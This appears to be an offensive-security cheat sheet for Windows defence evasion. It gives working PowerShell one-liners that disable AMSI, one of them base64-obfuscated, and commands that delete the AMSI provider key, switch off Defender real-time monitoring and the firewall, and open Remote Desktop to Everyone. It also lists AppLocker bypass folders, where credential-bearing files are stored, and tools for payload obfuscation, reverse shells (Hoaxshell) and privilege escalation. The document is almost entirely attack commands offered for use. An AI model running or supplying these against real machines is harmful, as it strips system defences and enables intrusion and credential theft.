 #  Bypass Windows AMSI / AV Evasion
### Shell:
Bypass using commands in the shell
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)

Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}" -Recurse

Set-MpPreference -DisableRealtimeMonitoring $true
```
### AMSITrigger.exe
Using [AMSITrigger.exe](https://github.com/RythmStick/AMSITrigger). This will show powershell triggers and help to modify the payload manually.
```powershell
AmsiTrigger.exe -i shell.ps1
```
### Invoke-Obfuscation
Using [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation). As it encodes the payload in numerous ways.
```powershell
Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation
SET SCRIPTBLOCK <Payload>
OR
SET SCRIPTPATH <URL of payload>
```
### ThreatCheck
Using [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck). We can find the bad chars and then edit it using `hexeditor` in linux to a new file to bypass the defender and AV. By default, the bad chars are at the bottom.
```powershell
ThreatCheck.exe -f Grunt.bin -e AMSI, Defender
```
### Hoaxshell
Using [Hoaxshell](https://github.com/t3l3machus/hoaxshell). We can bypass AV using the payload generated by Hoaxshell.
```powershell
./hoaxshell.py -s <LHOST>
```

# Disable real-time protection on Windows.
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

# Turn Firewall off on Windows:
```bash
netsh advfirewall set allprofiles state off
```
# Remote Desktop Connection:
```bash
net localgroup "Remote Desktop Users" Everyone /Add
```

# Bypass Windows Applocker

- Location.
 `C:\Windows\System32\spool\drivers\color`
 - [applocker-bypas-checker.ps1](https://github.com/sparcflow/GibsonBird/blob/master/chapter4/applocker-bypas-checker.ps1) is a powershell script that returns folders for bypass applocker.
```powershell
  .\applocker.ps1
[*] Processing folders recursively in C:\windows
[+]  C:\windows\Tasks
[+]  C:\windows\tracing
[+]  C:\windows\System32\spool\drivers\color
[+]  C:\windows\tracing\ProcessMonitor
```

# Powershell command history

  `\Users\%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

# Users' passwords in base64 encoding.

  `C:\Windows\Panther\Unattend\Unattended.xml`

# Privilege Escalation

- Use [PowerUp](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1)

   ```powershell
   . .\PowerUp.ps1
  Invoke-AllChecks
  ```

